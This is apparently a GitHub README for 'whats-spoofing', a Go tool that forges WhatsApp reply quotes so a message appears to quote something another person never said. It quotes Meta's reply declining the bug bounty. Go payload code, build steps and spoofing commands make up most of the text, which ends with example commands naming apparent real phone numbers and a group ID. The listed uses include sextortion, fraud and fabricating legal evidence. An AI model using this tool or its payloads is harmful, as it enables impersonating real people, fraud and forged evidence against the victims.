

# Whatsapp Spoofing impersonate of reply message
send 
All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook said about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## POC

[Watch the video](https://youtu.be/_WL6hpAvNh8)

[](https://youtu.be/_WL6hpAvNh8)



## Exploit

#### Clone the repository.

```bash
git clone https://github.com/lichti/whats-spoofing.git
```

### Install dependencies.

```bash
cd whats-spoofing
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```

send-spoofed-demo boy en 254706310869 254706310869 254798978585

send-spoofed-demo boy en 120363044658569467@g.us 254798978585

send-spoofed-demo boy en 254798978585 254798978585

